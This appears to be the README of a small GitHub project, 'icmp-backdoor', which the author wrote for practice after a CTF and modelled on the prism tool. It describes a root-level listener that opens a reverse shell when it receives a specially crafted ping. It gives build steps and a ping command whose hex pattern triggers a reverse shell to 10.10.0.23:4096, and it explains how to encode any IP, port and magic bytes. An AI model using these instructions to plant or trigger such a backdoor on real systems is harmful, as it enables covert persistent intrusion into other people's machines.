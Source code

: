 # icmp-backdoor

During the BSidesLV Pros vs. Joes CTF, it was revealed that the red
cell used a very similar tool to this known as prism to achieve
persistence in a few of our machines. I decided to write my own tool
similar to this for practice.

Prism: https://github.com/andreafabrizi/prism

The concept behind this tool is that it listens for specially crafted
ICMP packets, and if they match a certain criteria, it will spawn a
reverse shell to a specified host and port.

# Building

Just use _make_. This has currently been tested only on Linux. Will
test on BSD, macOS and others soon:

	$ make
	
If you don't have _make_ or if _gcc_ isn't your thing:

	$ clang -o icmp-backdoor icmp-backdoor.c

# Usage

Since this uses SOCK_RAW, you must run this as root or otherwise have
the ability to open raw sockets as the user that initially runs this.

Prism uses its own tool to send the packets. I opted for a "live off
the land" approach and use the commonly-available _ping_ utility with
the -p flag:

	$ ping -c 1 -p 0a0a001710002a7a host

The format for the pattern is: IIIIIIIIPPPPMMMM where I is IP address,
P is port, and M is magic bytes. This is represented as hexadecimal,
so you will either have to be a weirdo like me and be able to
calculate this in your head or use a calculator. I will add a shell
script to leverage this in the next few days.

In the above example:

	IP: 0a0a0017 is 10.10.0.23
	Port: 1000 is 4096
	Magic is 2a7a, which is hard-coded into this program.

This will open a reverse shell from the victim machine to 10.10.0.23:4096.

The magic bytes are there for alignment purposes when using the -p
flag with ping and as a mechanism to determine if a shell should be
opened when an ICMP packet is received.
